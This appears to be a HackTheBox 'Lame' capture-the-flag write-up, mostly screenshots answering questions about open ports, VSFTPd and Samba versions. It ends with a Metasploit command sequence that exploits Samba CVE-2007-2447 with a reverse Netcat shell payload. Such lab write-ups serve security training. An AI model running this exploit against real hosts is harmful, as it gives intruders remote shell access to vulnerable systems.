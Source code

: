 HackTheBox

1.How many of the nmap top 1000 TCP ports are open on the remote host?

![image](https://github.com/user-attachments/assets/7a33649b-012d-4895-9da0-32f59dd6302d)

執行畫面

![image](https://github.com/user-attachments/assets/8d83f47a-87e8-48e8-8658-699d7c09fa08)

ans:4

2.What version of VSFTPd is running on Lame?

![image](https://github.com/user-attachments/assets/37503d04-baa6-4d9c-9a9b-000583c989a6)

執行畫面

![image](https://github.com/user-attachments/assets/fe00ac21-ba10-41cf-85d2-028db69fb7d0)

ans:2.3.4

3.There is a famous backdoor in VSFTPd version 2.3.4, and a Metasploit module to exploit it. Does that exploit work here?
  VSFTPd 2.3.4 的後門漏洞在這台 Lame 機器上是否可被成功利用？

  ![image](https://github.com/user-attachments/assets/dda3ede2-df54-4fde-9118-e1937bea4c48)

執行畫面

  ![image](https://github.com/user-attachments/assets/5bdf18ac-f39e-4bc8-95b2-bba98ef8a4a4)

  ![image](https://github.com/user-attachments/assets/6f6b9a00-1239-4e63-b2f8-ccde5d3d4ec4)

執行畫面

  ![image](https://github.com/user-attachments/assets/f838a785-b551-46e4-8646-dea137aee549)

  ![image](https://github.com/user-attachments/assets/ee3c085d-fb0b-4715-88bb-485743bf4ef9)

ans:No

4.What version of Samba is running on Lame? Give the numbers up to but not including "-Debian".
  題目要求你找出在 Lame 靶機 上運行的 Samba（SMB）伺服器版本號，只填寫 數字部分，不要包含像 -Debian 的發行版本資訊。

  ![image](https://github.com/user-attachments/assets/a50f0009-4268-41bd-802d-1dfc4cdc4e3f)
  
  執行畫面
  
  ![image](https://github.com/user-attachments/assets/fa70969f-aeff-4b76-9276-4c7ab9ab4ebe)

  ![image](https://github.com/user-attachments/assets/f0b951f0-3884-41aa-8aef-51feed9fba26)
  
  執行畫面 
  
  ![image](https://github.com/user-attachments/assets/3004d88e-1ee3-499b-ad98-d7fc5621d6f4)

知道版本號，就可以從GOOGLE查該版本的CVE漏洞使用

  ![image](https://github.com/user-attachments/assets/308c8dfc-1b0c-44b8-8485-245a85b0fbab)


5.攻擊流程
Submit the flag located in the makis user's home directory.

![image](https://github.com/user-attachments/assets/690b98e0-ea7a-44a4-8add-b4c0feb760cb)

執行畫面 

![image](https://github.com/user-attachments/assets/b3bd4273-1e2d-4008-9f14-ab16520f7b11)

無法確認版本，改用smbclient

![image](https://github.com/user-attachments/assets/66a0b06c-2804-481f-9d28-77817fd3229a)

找出版本為3.0.20

![image](https://github.com/user-attachments/assets/e62836e2-ec70-40af-8ddc-c6cfed281760)

![image](https://github.com/user-attachments/assets/3abc2f22-f81f-4749-bc2c-1e97e0a56036)




<pre> ```
msfconsole
use exploit/multi/samba/usermap_script
set RHOSTS 10.10.10.3
set PAYLOAD cmd/unix/reverse_netcat
set LHOST <IP>
run
  ``` </pre>

  啟動 Metasploit 主控台工具，用來執行滲透模組。
  選擇針對 CVE-2007-2447 的 Samba 利用模組。
  RHOSTS：遠端目標主機 IP。
  使用最簡單的 Linux shell payload：反向連線給你一個 Netcat shell。
  LHOST 是你的 Kali 機器的 VPN IP，讓靶機知道要連回哪裡。
  設定你開啟 Netcat 來接收 shell 的 port。
  送出 exploit，嘗試利用漏洞。



  

  

